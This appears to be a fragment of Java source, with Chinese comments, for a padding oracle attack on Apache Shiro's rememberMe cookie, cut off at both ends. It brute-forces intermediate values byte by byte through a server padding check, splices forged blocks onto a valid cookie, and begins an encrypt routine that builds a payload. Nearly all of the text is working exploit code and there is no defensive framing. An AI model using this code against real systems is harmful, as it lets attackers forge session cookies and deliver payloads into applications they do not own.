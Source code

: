 ```java
                        testIv[this.blockSize-1]=(byte)(j^1^IV);
                        if (this.serverType(testIv,nextCipherTextBlock)) {
                            // 计算已经确定的中间值
                            tmpIV[this.blockSize - 1] = (byte) (IV ^ j);
                            for (int k = j; k > 1; k--) {
                                tmpIV[this.blockSize - k] = (byte) j;
                            }
                            // 返回下一个要爆破的middle位
                            return this.blockSize - j - 1;
                        }
                    }
                }
            }
        }

        throw new Exception("Occurs errors when find encrypt character, could't find a suiteable Character!!!");
    }

    private byte findCharacterEncrypt(int index, byte[] tmpIV, byte[] nextCipherTextBlock) throws Exception {
        if (nextCipherTextBlock.length != this.blockSize) {
            throw new Exception("CipherTextBlock size error!!!");
        }

        // 填充字符
        byte paddingByte = (byte) (this.blockSize - index);

        byte[] preBLock = new byte[this.blockSize];
        Arrays.fill(preBLock, (byte) 0);

        // preBLock为当前IV，它保证index+1及以后的位为paddingByte，我们需要爆破index位
        // IV为已经爆破出的middle值
        for (int ix = index; ix < this.blockSize; ix++) {
            preBLock[ix] = (byte) (paddingByte ^ tmpIV[ix]);
        }

        for (int c = 0; c < 256; c++) {
            //nextCipherTextBlock[index] < 256，那么在这个循环结果中构成的结果还是range(1,256)
            //所以下面两种写法都是正确的，当时看到原作者使用的是第一种方式有点迷，测试了下都可以
//            preBLock[index] = (byte) (paddingByte ^ nextCipherTextBlock[index] ^ c);
            preBLock[index] = (byte) c;

            // 将当前IV和要翻转攻击的分组拼接到合法cookie尾部
            byte[] tmpBLock1 = Base64.getDecoder().decode(this.loginRememberMe);
            byte[] tmpBlock2 = ArrayUtil.mergerArray(preBLock, nextCipherTextBlock);
            byte[] tmpBlock3 = ArrayUtil.mergerArray(tmpBLock1, tmpBlock2);
            String remeberMe = Base64.getEncoder().encodeToString(tmpBlock3);
            if (this.checkPaddingAttackRequest(remeberMe)) {
                return (byte) (preBLock[index] ^ paddingByte);
            }
            /*
            if (this.checkPaddingAttackRequest(remeberMe)) {
                return (byte) (preBLock[index] ^ paddingByte);
            }
            */
        }
        throw new Exception("Occurs errors when find encrypt character, could't find a suiteable Character!!!");
    }

    // 入参nextBLock为要翻转攻击的分组，未null时表示为payload的最后一个分组
    public String encrypt(byte[] nextBLock) throws Exception {
```